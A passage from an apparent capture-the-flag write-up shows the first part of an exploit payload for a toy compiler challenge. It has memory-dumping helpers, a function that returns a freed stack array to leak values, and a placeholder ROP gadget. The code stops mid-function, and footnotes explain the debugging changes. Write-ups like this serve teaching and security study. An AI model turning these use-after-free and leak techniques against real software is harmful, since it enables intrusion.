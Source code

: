 The final exploit payload looks as follows (containing a bunch of debugging stuff leftover from the CTF :)):

```python
def fetch(array, ofs):
    return array[ofs]

def store(array, ofs, value):
    array[ofs] = value

def print_num(n):
    if n == 0:
        putc(48)  # '0'
        return
    if n < 0:
        putc(45)  # '-' sign
        n = -n
    div = n // 10
    if div != 0:
        print_num(div)
    putc(48 + n % 10)

def print_hex_num(n):
    if n == 0:
        putc(48)  # '0'
        return
    if n < 0:
        putc(45)  # '-' sign
        n = -n
    div = n // 16
    if div != 0:
        print_hex_num(div)
    dig = n % 16
    if dig < 10:
        putc(48 + dig)
    else:
        putc(97 + dig - 10)

def print_arr(s):
    for i in range(1000):
        print_num(i)
        putc(32)
        print_hex_num(fetch(s, i))
        putc(44)
        putc(32) # ' '
    putc(0xa)

# creates array on stack
# but after we return the stack frame is gonna be invalid!
def create_freed_array():
    a = array(1000)
    return a

# STACK_BASE = 0
# PIE_BASE = 0
# ARR_CANARY = 0

# rop gadgets

def gadget1():
    return 0x5f5e5a90

# leak stuff, if we give it the freed array
def deeper(a):
```

[^1]: This was unchanged from the original project on GitHub.
[^2]: Note: I changed the provided python file to make it easier to debug. For example I save the assembly output in a temporary file.
[^3]: The `store` / `fetch` functions might seem a bit weird. I had some issues (because I was wrongly using Python 3.8) and so I just copied the code from GitHub. All `store` / `fetch` should be replaceable with normal array indexing now.